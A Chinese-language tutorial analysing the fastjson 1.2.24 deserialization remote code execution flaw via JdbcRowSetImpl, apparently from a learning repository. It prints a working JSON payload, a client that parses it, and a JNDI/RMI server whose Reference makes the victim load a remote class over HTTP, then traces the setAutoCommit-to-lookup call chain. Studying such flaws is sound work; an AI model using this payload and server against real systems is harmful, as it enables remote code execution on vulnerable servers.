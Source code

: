 # fastjson 反序列化漏洞详解（JdbcRowSetImpl）

> `apache common collections`以及Spring RCE都是利用了`readObject`方法进行利用链触发的。`fastjson`的反序列化则是利用了目标类的`set`方法与`get`方法，因为这两个方法是`fastjson`在进行反序列化时需要调用的方法。
>
> `fastjson`是一个java编写的高性能功能非常完善的JSON库，应用范围非常广，在github上star数都超过1w8，在2017年3月15日，`fastjson`官方主动爆出`fastjson`在1.2.24及之前版本存在远程代码执行高危安全漏洞。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。关于漏洞的具体详情可参考 https://github.com/alibaba/fastjson/wiki/security_update_20170315

## POC

主要的`payload`如下，很简单就是利用了Spring JNDI的漏洞，在进行`lookup()`方法时出现的漏洞。

```
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://127.0.0.1:1099/object",
    "autoCommit":true
}
```

整体的利用代码也很简单，就是将payload进行反序列化就可以。

### Client端

```
package JavaUnser;

import com.alibaba.fastjson.JSON;

public class fastjsonPoc {

    public static void JdbcRowSetImplTrriger(){
        //jdk8以下版本
        String payload="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/object\"," +
                "\"autoCommit\":true}";
        JSON.parseObject(payload);
    }
    public static void main(String args[]){
        try {
            JdbcRowSetImplTrriger();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### Server端

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import com.sun.net.httpserver.HttpServer;

import javax.naming.Reference;
import java.net.InetSocketAddress;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIServer {

    public static void main(String[] args) throws Exception {
        System.out.println("Starting HTTP server");
        HttpServer httpServer = HttpServer.create(new InetSocketAddress(8000), 0);
        httpServer.createContext("/",new HttpFileHandler());
        httpServer.setExecutor(null);
        httpServer.start();

        Registry registry = LocateRegistry.createRegistry(1099);

        Reference reference = new Reference("ExportObject",
                "ExportObject","http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("object",referenceWrapper);
    }
}
```

`server`端还有两个文件一个是`ExportObject.java`、还有一个`HttpFileHandler.java`，项目文件中都有就不贴上来了。首先要保证`target`文件下存在`ExportObject.class`，然后先开启`server`端，在开启`client`端就可以执行。

## 触发链

首先会执行`JdbcRowSetImpl`类下边的`autoCommit`属性，然后由于使用的是`parseObject`方法，会先触发所有的`set`操作，因此会触发`setAutoCommit`。

![1558168186744](https://github.com/sunSUNQ/Java_learning/raw/master/Fastjson_Unserialize_JdbcRowSetImpl/image/1558168186744.png)

进一步跟进到`connect`函数中，会看到有`lookup`方法，根据之前对于Spring RCE反序列化的分析，可以直接触发恶意类的反序列化以及恶意代码。

![1558168499092](https://github.com/sunSUNQ/Java_learning/raw/master/Fastjson_Unserialize_JdbcRowSetImpl/image/1558168499092.png)

![1558169486135](https://github.com/sunSUNQ/Java_learning/raw/master/Fastjson_Unserialize_JdbcRowSetImpl/image/1558169486135.png)

对应的调用链，有兴趣的可以自己跟进去一点点看。关键的部分就是上边的几个函数调用。

![1558169650224](https://github.com/sunSUNQ/Java_learning/raw/master/Fastjson_Unserialize_JdbcRowSetImpl/image/1558169650224.png)

然后就会进行反序列化的触发啦，这里要确认开启两个一个是Server端一个是Clinet端才能成功，然后设计一下线程`sleep`，不然会一直弹计算器弹崩掉。

![1558169741534](https://github.com/sunSUNQ/Java_learning/raw/master/Fastjson_Unserialize_JdbcRowSetImpl/image/1558169741534.png)





## 参考链接

[Java反序列化漏洞的一些利用链分析](https://www.anquanke.com/post/id/173459#h2-9)

[基于JdbcRowSetImpl的Fastjson RCE PoC构造与分析](http://xxlegend.com/2017/12/06/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90/)
